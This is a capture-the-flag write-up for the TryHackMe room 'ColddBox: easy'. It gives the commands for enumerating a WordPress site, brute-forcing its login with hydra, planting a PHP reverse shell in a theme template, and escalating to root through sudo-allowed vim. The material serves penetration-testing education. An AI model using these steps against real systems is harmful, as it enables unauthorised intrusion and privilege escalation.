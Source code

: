 ```yaml
---
title: "TryHackMe - ColddBox: easy"
author: Nasrallah
description: ""
date: 2022-10-03 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, easy, hydra, bruteforce, sudo]
img_path: /assets/img/tryhackme/colddbox
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [ColddBox: easy](https://tryhackme.com/room/colddboxeasy) from [TryHackMe](https://tryhackme.com). We find a webserver running wordpress, we scan it with wpscan and find usernames that we user to brute force the login page and find a password. We easily get a reverse shell after that. Once we're in, we find a password in a config file giving access to a user that has the ability to run some programs as root, we exploit that to get elevated privileges.

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.238.77
Host is up (0.11s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: ColddBox | One more machine
|_http-generator: WordPress 4.1.31
```

We have port 80 open running an Apache web server  and wordpress 4.1.31.

## WPScan

Let's run `wpscan` and see what we can find.

```bash
wpscan --url http://10.10.238.77 -e vp,vt,u
```

 - -e: enumerate - vp: vulnerable plugins | vt: vulnerable themes | u: usernames
        
![](1.png)

The scan revealed 3 usernames, let's put them in a file and brute force the login for wordpress.

```bash
hydra -L usernames.lst -P /usr/share/wordlists/rockyou.txt 10.10.238.77 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username"

```

![](2.png)

We found the password of user `c0ldd`. Let's login.

![](3.png)

# **Foothold**

Following the steps described in this [article](https://www.hackingarticles.in/wordpress-reverse-shell/), let's get a reverse shell.

Go to `Appearance` -> `Editor` and select the 404 Template

Replace the php code with this [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and change the ip to your tun0 ip. Then click `Update File`. 

![](4.png)

Now setup a listener with `nc -lvnp 1234` and visit this page `http://{target_IP}/wp-content/themes/twentyfifteen/404.php`

![](5.png)

# **Privilege Escalation**

Let's check the `wp-config.php` file of wordpress since it usually hold some credentials.

![](6.png)

We found the password of `c0ldd`. Let's switch to that user with `su c0ldd`.

Let's check our privileges with `sudo -l`

```terminal
c0ldd@ColddBox-Easy:/var/www/html$ sudo -l
Coincidiendo entradas por defecto para c0ldd en ColddBox-Easy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp
c0ldd@ColddBox-Easy:/var/www/html$ 

```

We can `vim`, `ftp` and `chmod` as root. Let's go check [GTFOBins](https://gtfobins.github.io/gtfobins).

### Vim

![](7.png)

### FTP

![](8.png)

### chmod

![](9.png)

Let's run the vim command and get root.

```bash
sudo vim -c ':!/bin/sh'
```

![](10.png)


---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References
